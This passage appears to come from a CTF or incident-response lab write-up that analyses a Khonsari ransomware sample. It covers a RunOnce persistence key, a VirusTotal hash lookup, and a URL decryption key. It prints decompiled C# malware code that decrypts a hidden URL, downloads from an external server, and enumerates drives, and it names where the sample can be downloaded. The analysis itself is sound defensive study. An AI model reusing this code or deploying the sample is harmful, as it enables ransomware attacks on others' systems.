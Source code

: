 The exe can be discovered in the below path.

`C:\Users\Administrator.WIN-B633EO9K91M\NTUSER.DAT`

Click on `NTUSER.DAT` and expand SOFTWARE > Microsoft > Windows > CurrentVersion, then click on RunOnce

![image](https://bn1304files.storage.live.com/y4m-MfURx-wckc2prfwd5uehJGrZjPqAnVYEISxG2yXNT_apP62yceHAzQOuXi-WnER10oyK9wZA15UzD7JdbLKXUyVesSlrjIef6oBapnt9NfgvSwWPbmbal90SgFnD1s9qey23mKqeqUSFg2Ue_ijOrS5tMv01bz0eYgUyGKBu0rVL6k928il8QjGgfttGKJU?width=2122&height=1372&cropmode=none)

### 22

When was the first submission of ransomware to virustotal?

**2021-12-11 22:57:01**

The sha256 hash: `f2e3f685256e5f31b05fc9f9ca470f527d7fdae28fa3190c8eba179473e20789` of `baaaackdooor.exe` can be searched on Virustotal for First Submission under history.

### 23

The ransomware downloads a text file from an external server. What is the key used to decrypt the URL?

**"GoaahQrC"**

More research is done on this ransomeware via virustotal an detailed article on khonsari malware for apache log4j is found and was able to get the key to decrypt.

<https://www.bluvector.io/threat-report/khonsari-new-malware-apache-log4j/>

> `info` Another way to get the key is to reverse engineer the malware.
{: .prompt-info }

Using the `f2e3f685256e5f31b05fc9f9ca470f527d7fdae28fa3190c8eba179473e20789` from question 23, we can download the malware from <https://bazaar.abuse.ch/> and open it up in [dnspy](https://github.com/dnSpy/dnSpy#:~:text=dnSpy%20is%20a%20debugger%20and,Main%20features%3A&text=NET%20and%20Unity%20assemblies), a .Net debugger.

```cs
private static void Main()
 {
  List<string> list = new List<string>();
  WebClient webClient = new WebClient();
  string text = "/\u001b\u0015\u0011R~]pi^UTF`CviVUN\u00120\u001f!(\u001c>\u0002\t=\u0016,\u0018\v\u0004>\u0018\u007f\u0006;3";
  string text2 = text;
  string edhcLlqR = text2;
  string text3 = "GoaahQrC";
  string text4 = text3;
  string vnNtUrJn = text4;
  webClient.DownloadString(oymxyeRJ.CajLqoCk(edhcLlqR, vnNtUrJn));
  foreach (DriveInfo driveInfo in DriveInfo.GetDrives())
  {
   string name = driveInfo.Name;
   string text5 = "2w\u0015";
   string text6 = text5;
   string edhcLlqR2 = text6;
   string text7 = "qMIamfMA";
   string text8 = text7;
   string vnNtUrJn2 = text8;
   if (!name.Equals(oymxyeRJ.CajLqoCk(edhcLlqR2, vnNtUrJn2)))
   {
    list.Add(driveInfo.Name);
   }
  }
```
